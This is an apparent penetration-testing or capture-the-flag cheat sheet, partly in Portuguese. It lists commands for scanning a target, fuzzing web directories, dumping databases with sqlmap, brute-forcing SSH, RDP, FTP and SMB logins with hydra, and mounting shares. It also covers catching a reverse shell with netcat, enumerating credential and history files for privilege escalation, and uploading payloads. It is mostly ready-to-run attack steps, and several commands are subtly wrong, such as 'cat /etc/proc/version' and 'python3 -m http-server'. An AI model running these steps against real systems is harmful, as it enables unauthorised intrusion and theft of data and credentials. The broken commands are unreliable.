 # 1° Network Scan Nmap 

$ sudo nmap 10.0.0.0/24 -oN report-nmap.txt

$ sudo nmap -Pn -p- -sV -v 10.0.0.123 -oN report-all-ports-nmap.txt

$ sudo nmap -Pn -A 10.0.0.123 -oN report-agressive-nmap.txt

$ sudo nmap -Pn -sV -sC -O 10.0.0.123 -oN report-basic-nmap.txt

$ sudo nmap -Pn --script vuln 10.0.0.123 -oN report-all-vulns.txt

$ sudo nmap -Pn -p 80 --script http-enum,http-robots.txt 10.0.0.123

$ sudo nmap -Pn -p 80 --script http-sql-injection 10.0.0.123

$ sudo nmap -Pn -p 80 --script http-passwd --script-args http-passwd.root=/test/ 10.0.0.123

$ sudo nmap -Pn -p 80 --script http-vuln-* 10.0.0.123

$ sudo nmap -Pn -p 21 --script ftp-anon 10.0.0.123

$ sudo nmap -Pn -p 21 --script ftp-proftpd-backdoor 10.0.0.123 [ProFTPD 1.3.3c]

$ sudo nmap -Pn -p 21 --script ftp-vsftpd-backdoor 10.0.0.123 [vsFTPd 2.3.4]

$ sudo nmap -Pn -p 111 --script nfs-ls,nfs-statfs,nfs-showmount 10.0.0.123

$ sudo nmap -Pn -p 445 --script smb-enum-shares,smb-enum-users 10.0.0.123

$ sudo nmap -Pn -p 445 --script smb-vuln-* 10.0.0.123

https://nmap.org/book/man.html

# 2° Web-Server Scan Dirb/Gobuster/ffuf/Nikto

$ dirb http://Target_IP -o dirb-report.txt

$ dirb http://Target_IP -X .txt -w /usr/share/dirb/wordlists/small.txt -o dirb-report.txt

$ dirb http://Target_IP:8080 -w /usr/share/dirb/wordlists/big.txt -u user:password

$ gobuster -u http://Target -w /usr/share/dirb/wordlists/small.txt dir

$ gobuster -u http://Target -x php,html,js,txt,zip -w /usr/share/dirb/wordlists/big.txt dir

$ ffuf -u http://example.com/FUZZ -w Wordlists/dir-list-2.3-medium.txt

$ ffuf -u http://example.com/FUZZ -w Wordlists/dir-list-2.3-medium.txt -o results.json -of json

$ ffuf -u http://example.com/FUZZ -w Wordlists/dir-list-2.3-medium.txt -fc 403

$ ffuf -u http://example.com/FUZZ -w Wordlists/dir-list-2.3-medium.txt --recursion-depth 2

$ ffuf -u http://example.com/FUZZ.txt -w Wordlists/dir-list-2.3-medium.txt -fc 403 -fs 292

$ ffuf -u http://example.com/FUZZ -w Wordlists/list-name.txt -X POST -d "username=FUZZ&password=pass"

$ ffuf -u http://FUZZ.example.com -w Wordlists/list-subdomains.txt -H "Host: FUZZ.example.com"

$ nikto -h http://Target_IP -o report.html

$ nikto -h http://Target_IP:8080/ -id user:password

# 3° Web-Site-DB Scan SQLMap/Burp Suite/ZAP

$ sqlmap -u http://Target_IP/login.php --forms --dump

$ sqlmap -u http://Target_IP/listproducts.php?cat=1 –-dbs

$ sqlmap -u  http://Target_IP/listproducts.php?cat=1 –-dbs -D products –-tables

Burp Suite > Proxy > Intercept > Open Browser > Intercept on

Burp Suite > Intruder > Sniper attack > Positions Add > Payload Type = Simple list

# 4° Password Brute Force

$ hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

$ hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ftp

$ hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ssh

$ hydra -f -L name-list.txt -P /usr/share/wordlists/rockyou.txt Target_IP ssh

$ hydra -L name-list.txt -P /usr/share/wordlists/rockyou.txt Target_IP -s 2222 ssh

$ hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP smb

$ hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP rdp

$ hydra -L name-list.txt -P /usr/share/wordlists/rockyou.txt Target_IP -s 33389 rdp

$ hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP http-get

$ hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP -s 8080 http-get

# 5° Scan SMB

$ enum4linux -a Target_IP

# 6° Gain Access

http://example.com/login [Exibir código fonte da página]

http://example.com/ftp

http://example/upload

http://example.com/hiden/dir

http://example.com/robots.txt

$ ftp Target_IP [user anonymous]

$ ssh user@Target_IP

$ ssh -i id_rsa user@Target_IP

$ ssh -oHostKeyAlgorithms=+ssh-rsa user@Target_IP

$ sudo mount -o rw Target_IP:/backup /tmp/dir-target

$ sudo mount -t cifs -o username=user_name //Target_IP/share_name /mnt/dir-target

$ smbclient //Target_IP/shared/dir

# 7° Reverse Shell

Execute no terminal shell do Kali Linux $nc -lvnp 6666

https://www.sans.org/posters/netcat-cheat-sheet

Implante o Payload de Shell Reverso [php, python, nc]

https://github.com/pentestmonkey/php-reverse-shell

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Spawn a tty shell

python3 -c 'import pty; pty.spawn("/bin/bash")'

# 8° Search Priv-Esc

$ cat /etc/proc/version

$ cat /etc/issue

$ cat /etc/passwd

$ cat /etc/crontab

$ cat /etc/exports

$ cat ~/.*history | less

$ id

$ ls -la /

$ ls -la /home

$ ls -la /home/user/.ssh

$ sudo -l

$ getcap -r / 2>/dev/null

$ find / -perm -o w -type d 2>/dev/null

$ find / -perm -u=s -type f 2>/dev/null

$ find / -name perl* python* gcc* 2>/dev/nul

$ find /home -name flag*.txt

$ find / -user "www-data" -name "*" 2>/dev/null

https://gtfobins.github.io

https://www.exploit-db.com

# 9° Deploy Payload

$ python2 -m SimpleHTTPServer 8000

$ python3 -m http-server 8000

$ scp payload.sh user@Target_IP:/home/user
